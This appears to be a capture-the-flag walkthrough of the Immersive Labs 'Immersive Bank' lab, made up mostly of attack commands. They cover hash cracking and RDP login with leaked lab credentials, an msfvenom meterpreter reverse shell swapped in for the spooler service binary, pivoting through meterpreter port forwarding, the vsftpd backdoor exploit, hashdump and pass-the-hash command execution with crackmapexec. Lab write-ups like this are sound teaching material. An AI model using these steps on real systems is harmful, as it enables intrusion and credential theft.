 ```yaml
---
date: 2025-03-07
categories: [CTF, ImmersiveLabs]
title: "IML - Immersive Bank"
tags: ['ftp', 'hashdump', 'john the ripper', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows']

description: "Immersive Bank - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Immersive Bank

**<u>Immersive Bank: Ep.1 – Open Source and Credentials</u>**

```bash
john hash /usr/share/wordlists/rockyou.txt --format=raw-sha256S

```

![image1](../resources/5a9da1d38d9441d98ec574c0ffb4167f.png)


![image2](../resources/ff8b07f220184b248f67c606e02f9cb2.png)

**<u>Immersive Bank: Ep. 2 – Gaining Access</u>**

```bash
xfreerdp /v:10.102.189.120:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image3](../resources/cb678f99260b4d77a1dab3ca4c44216b.png)

**<u>Immersive Bank: Ep.3 – Privilege Escalation</u>**

```bash
xfreerdp /v:10.102.118.107:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```
Troubleshooting file in C:\IMLBankIT


![image4](../resources/88128aa965a04ed0ac96f26867735f29.png)


![image5](../resources/877f385f297546559a08df9e6e23d37d.png)

```bash
sc query spooler

```

![image6](../resources/ac759a27b55043848b971c7a027f940f.png)

- Create a reverse shell named spoolsv.exe:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.170.0 LPORT=4445 -f exe -o spoolsv.exe

```
- Set up listener:

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.170.0; set lport 4445; exploit"

```
- Transfer the malicious exe and replace the original

- Start service:

```bash
sc start spooler

```

![image7](../resources/2932eb0ce39f4c62b97c6bff51ff6b1d.png)

- Migrate to a more stable process:

```bash
ps

migrate -N LogonUI.exe

```

![image8](../resources/7f9c57411e0e4f59b9f889983c4b05f2.png)


cat C:\Users\Administrator\Desktop\token.txt


**<u>Immersive Bank: Ep.4 – Pivoting</u>**

```bash
xfreerdp /v:10.102.146.57:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image9](../resources/f08f524068394b3897f76128fb2a307a.png)

- Do above exploit first to get SYSTEM and migrate to a more stable process

- Ping the FTP server to see if we can talk to it

![image10](../resources/a989c28fb914484d9688ace7e54588da.png)

- Background current meterpreter session (bg):

![image11](../resources/afcfabd38ef1469f974786de9ca2124e.png)

- Now we need to add a route to the FTP server:

```bash
route add 10.102.36.63 255.255.255.255 1

```

![image12](../resources/52f0db74f48147e98ec6c4a5ea0746fc.png)

- Back to the session:

```bash
sessions 1

```
- Forward port 3000 on our localhost to port 21 on the FTP server:

```bash
portfwd add -l 3000 -p 21 -r 10.102.36.63

```

![image13](../resources/9c146bdd6c44465c8a4e427a3400a9d0.png)

- Open another terminal

Banner grab with nc or ftp:

```bash
nc 127.0.0.1 3000

```

![image14](../resources/d4298ca418c1452882729f07eed0aad7.png)


![image15](../resources/d7f7f68f0c37441085fbbe2a0edcfe70.png)

- Background current meterpreter session:

```bash
bg
```

- Search for vsftpd in msf and use the following payload:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 10.102.36.63  #Because route was added
set rport 21

```

![image16](../resources/3b18d9c8b1d04027a0569275690c1a27.png)


![image17](../resources/c0fa403808ce4f60bbdf40d93421bbdc.png)

**\*\*Tip** - before going on to Ep.5 - Do a hashdump in meterpreter and save the manager hash

**<u>Immersive Bank: Ep.5 – Account Abuse</u>**
- If you didn't save the hash on Ep.4 - you need to do the whole priv esc part again and in meterpreter, do a hashdump:

![image18](../resources/77e33bc5545047ccafe4f89b8a61a53b.png)

manager:1002:aad3b435b51404eeaad3b435b51404ee:**66ece2b7200f29cbd0b799350c29244e**:::

- We can check the credentials with CME:

```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e

```

![image19](../resources/a31d5f5b29d745d1a259b508479988a7.png)

- We can also execute commands through CME:

```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e -x 'type C:\Users\manager\Desktop\token.txt'

```

![image20](../resources/b52cd74f9da74350835fa359aca1d24a.png)
